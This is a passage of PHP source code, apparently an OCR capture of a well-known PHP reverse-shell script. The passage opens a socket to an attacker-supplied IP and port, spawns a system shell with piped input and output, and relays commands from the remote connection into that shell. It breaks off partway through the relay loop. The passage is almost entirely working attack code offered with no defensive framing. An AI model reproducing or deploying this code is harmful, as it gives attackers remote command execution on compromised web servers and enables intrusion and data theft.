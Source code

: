       // Remove any umask we inherited
      umask(0);

      //
      // Do the reverse shell...
      //

      // Open reverse connection
      $sock = fsockopen($ip, $port, $errno, $errstr, 30);
      if (!$sock) {
      	printit("$errstr ($errno)");
      	exit(1);
      }

      // Spawn shell process
      $descriptorspec = array(
         0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
         1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
         2 => array("pipe", "w")   // stderr is a pipe that the child will write to
      );

      $process = proc_open($shell, $descriptorspec, $pipes);

      if (!is_resource($process)) {
      	printit("ERROR: Can't spawn shell");
      	exit(1);
      }

      // Set everything to non-blocking
      // Reason: Occsionally reads will block, even though stream_select tells us they won't
      stream_set_blocking($pipes[0], 0);
      stream_set_blocking($pipes[1], 0);
      stream_set_blocking($pipes[2], 0);
      stream_set_blocking($sock, 0);

      printit("Successfully opened reverse shell to $ip:$port");

      while (1) {
      	// Check for end of TCP connection
      	if (feof($sock)) {
      		printit("ERROR: Shell connection terminated");
      		break;
      	}

      	// Check for end of STDOUT
      	if (feof($pipes[1])) {
      		printit("ERROR: Shell process terminated");
      		break;
      	}

      	// Wait until a command is end down $sock, or some
      	// command output is available on STDOUT or STDERR
      	$read_a = array($sock, $pipes[1], $pipes[2]);
      	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

      	// If we can read from the TCP socket, send
      	// data to process's STDIN
      	if (in_array($sock, $read_a)) {
      		if ($debug) printit("SOCK READ");
      		$input = fread($sock, $chunk_size);
      		if ($debug) printit("SOCK: $input");
      		fwrite($pipes[0], $input);
      	}

